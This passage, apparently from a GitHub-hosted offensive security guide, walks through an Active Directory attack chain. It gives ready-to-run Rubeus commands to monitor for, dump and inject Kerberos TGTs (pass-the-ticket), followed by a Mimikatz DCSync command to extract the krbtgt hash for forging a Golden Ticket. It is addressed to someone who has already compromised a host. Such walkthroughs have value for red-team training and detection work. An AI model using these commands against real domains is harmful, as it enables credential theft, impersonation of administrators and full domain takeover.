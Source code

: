 #### 2. **Use Rubeus to Monitor for TGT Tickets**
Now that you’ve potentially compromised a system where domain admins or high-privilege users may log in, you can use **Rubeus** to monitor for **Kerberos TGT tickets** passively.

- Run **Rubeus** in monitor mode on the compromised system to listen for new Kerberos tickets.

   Example command:
   ```powershell
   Rubeus.exe monitor /interval:5 /nowrap /filteruser:<target machine>
   ```

   - This command tells Rubeus to check for new tickets every 5 seconds. The `nowrap` option prevents output wrapping for easier reading.

   **Result**: Rubeus will passively monitor for Kerberos tickets that are created when users authenticate or log in to the system.

#### 3. **Use Rubeus to Dump and Extract the TGT**
Once **Rubeus** has captured a **TGT**, you can extract the ticket and inject it into your session.

- **Dump the captured TGT tickets**:

   ```powershell
   Rubeus.exe dump /nowrap
   ```

   - This will display the Kerberos tickets that were captured by Rubeus, including **TGTs** (Ticket Granting Tickets).
   - Look for the **TGT** of a high-privileged user, such as a **domain admin** or a **Domain Controller** machine account.

- **Inject the TGT ticket** into your session using the Pass-the-Ticket technique:

   ```powershell
   Rubeus.exe ptt /ticket:<base64_TGT_ticket>
   ```

   **Result**: You now impersonate the user whose TGT you captured and injected. If it’s a domain admin or a machine account, you can proceed to use that ticket for further privilege escalation.

#### 4. **Perform a DCSync Attack with Mimikatz**
Now that you have impersonated a privileged user (e.g., domain admin), you can perform a **DCSync** attack to extract password hashes from the Domain Controller.

- **Run Mimikatz** and perform the **DCSync** attack:

   ```powershell
   mimikatz # privilege::debug
   mimikatz # lsadump::dcsync /user:krbtgt /domain:<domain> /dc:<dc_ip>
   ```

   - `/user:krbtgt`: Dump the credentials for the **krbtgt** account, which is used to generate and validate Kerberos tickets.
   - `/domain:<domain>`: The domain name of the target Active Directory.
   - `/dc:<dc_ip>`: The IP address of the Domain Controller.

   **Result**: You will retrieve the **NTLM** and **Kerberos hash** for the `krbtgt` account. This is essential for creating a **Golden Ticket**.
